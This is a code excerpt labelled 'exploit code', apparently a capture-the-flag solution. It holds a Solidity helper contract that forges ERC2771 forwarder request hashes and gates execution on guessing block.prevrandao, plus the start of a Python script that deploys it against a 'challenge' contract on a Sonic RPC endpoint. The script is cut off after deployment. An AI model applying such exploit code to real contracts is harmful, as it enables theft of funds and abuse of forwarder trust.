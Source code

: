 - exploit code
    
    ```solidity
    contract Helper {
        bytes32 constant separator = 0xb0b9bfbe3cefbfdc6d6872e4aff4cb89d1b82df01a5fc1446178b784a19efd3c;
        bytes32 constant forwarderTypeHash = 0x7f96328b83274ebc7c1cf4f7a3abda602b51a78b7fa1d86a2ce353d75e587cac;
        ERC2771Forwarder public forwarder;
    
        constructor(ERC2771Forwarder _forwarder) {
            forwarder = _forwarder;
        }
    
        function getHash(address from, address to, uint nonce, uint48 deadline, bytes calldata data) public view returns (bytes32) {
            return MessageHashUtils.toTypedDataHash(
                separator,
                keccak256(
                    abi.encode(
                        forwarderTypeHash,
                        from,
                        to,
                        0,
                        300000,
                        nonce,
                        deadline,
                        keccak256(data)
                    )
                )
            );
        }
    
        function helpCall(ERC2771Forwarder.ForwardRequestData memory req, uint256 guess) public {
            if (block.prevrandao % 26 == guess) {
                forwarder.execute(req);
                return;
            }
            revert("Not matched");
        }
    }
    ```
    
    ```python
    from cheb3 import Connection
    from cheb3.utils import load_compiled, encode_with_signature
    from eth_account import Account
    
    from datetime import datetime, timezone
    
    conn = Connection("https://rpc.soniclabs.com/")
    account = conn.account("<pk>")
    challenge = "0x786BeE5292B12AA79725cb66f0CBfb7E10A6CAc9"
    forwarder_addr = "0xEC83A9D2a4D1fbd20b062297a1996F17803Ee4A4"
    
    helper_abi, helper_bin = load_compiled("PoC.t.sol", "Helper")
    helper = conn.contract(account, abi=helper_abi, bytecode=helper_bin)
    helper.deploy(forwarder_addr)
    